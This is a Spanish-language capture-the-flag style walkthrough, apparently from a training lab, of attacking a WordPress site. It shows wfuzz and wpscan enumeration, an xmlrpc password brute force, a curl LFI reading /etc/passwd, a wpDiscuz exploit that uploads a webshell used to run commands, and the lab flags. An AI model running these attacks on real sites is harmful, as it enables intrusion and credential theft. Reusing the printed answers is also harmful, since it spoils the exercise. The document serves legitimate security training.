

# Laboratorio: Wordpress 🛒

1. Agregamos el dominio y la dirección IP al archivo **`/etc/hosts`**

<p align="center">
    
</p>

---

2. Veremos la publicación `Shipping Industry News` y veremos el nombre de un plugin
* **URL:** `http://blog.inlanefreight.local/?p=1`

<p align="center">
    
</p>

---

3. Si queremos su versión veremos el archivos `readme.txt` 
* **URL:** `http://blog.inlanefreight.local/wp-content/plugins/wp-sitemap-page/readme.txt`

```
=== WP Sitemap Page ===
<SNIP>
Stable tag: 1.6.4
<SNIP>
```

---

4. Para encontrar la `flag` fuzzearemos en el directorio `wp-content` con **wfuzz**
* `wfuzz -c -t 50 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://blog.inlanefreight.local/wp-content/FUZZ/`

**Output**
```
000000150:   200        17 L     71 W       1168 Ch     "uploads"
```

---

5. La **flag** 🏴 se encuentra en `http://blog.inlanefreight.local/wp-content/uploads/2021/08/`

* `0ptions_ind3xeS_ftw!`

---
---
---

# Laboratorio: Attacking WordPress 🛒

1. Usaremos **wpscan** para conocer posibles usuarios que existan en `WordPress`
* `wpscan --url wpscan --url http://blog.inlanefreight.local --enumerate`

```java
<SNIP>
[+] doug
 | Found By: Author Id Brute Forcing - Author Pattern(AggressiveDetection)
 | Confirmed By: Login Error Messages (Aggressive Detection) 
<SNIP>
```
---
2. Ahora, realizeremos un **ataque de fuerza bruta** usando `xmlrpc.php`
* `wpscan --password-attack xmlrpc -t 20 -U "doug" -P /home/kali/Desktop/rockyou.txt --url http://blog.inlanefreight.local/`

```java
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - doug / jessica1
```
---
3. En el output del primer scaneo con **wpscan** vimos que existen 2 plugins `mailmasta` y `wpdiscuz`

* `mailmasta` es vulnerable a **LFI**, así que leeremos el archivo `/etc/passwd`
* `curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

```java
<SNIP>
webadmin:x:1001:1001::/home/webadmin:/bin/bash
<SNIP>
```
---
4. Ahora, vulneramos `wpdiscuz`
* **RECURSO:** `https://www.exploit-db.com/exploits/49967`
* `python wpdiscuz.py -u http://blog.inlanefreight.local/  -p /?p=1`

```sql
<SNIP>
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2023/06/dzojuyxmewyolkm-1686341026.8348.php&quot;
<SNIP>
```

* Visitamos la **URL** y podremos ejecutar comandos, así que leeremos la **flag** 🏴
* **URL:** `http://blog.inlanefreight.local/wp-content/uploads/2023/06/dzojuyxmewyolkm-1686341026.8348.php?cmd=cat /var/www/blog.inlanefreight.local/flag_[ID].txt`

* **Flag:** `l00k_ma_unAuth_rc3!`